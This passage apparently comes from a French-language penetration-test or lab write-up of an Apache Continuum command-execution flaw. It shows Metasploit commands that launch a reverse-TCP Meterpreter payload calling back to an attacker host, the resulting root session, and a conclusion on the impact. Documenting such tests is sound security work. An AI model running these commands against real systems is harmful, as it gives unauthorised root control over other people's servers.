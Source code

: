 ```bash
use exploit/linux/http/apache_continuum_cmd_exec
set RHOSTS 192.168.1.55
set LHOST 192.168.1.34
set payload linux/x64/meterpreter/reverse_tcp
run
```

##### 3. Résultat
![alt text](image-35.png)

Une session **Meterpreter** a été ouverte avec succès :

```
meterpreter > getuid
Server username: root
```

L’attaquant dispose donc directement d’un **accès root** sur la machine compromise.




#### ✅ Conclusion
Cette vulnérabilité sur **Jetty / Apache Continuum** permet une **compromission totale du serveur** sans authentification préalable.  
L’attaquant peut exécuter n’importe quelle commande système avec les privilèges root, ce qui ouvre la voie à :  
- une **prise de contrôle complète de la machine**,  
- un **mouvement latéral** dans le réseau interne,  
- un **risque critique pour l’intégrité et la confidentialité des données**.
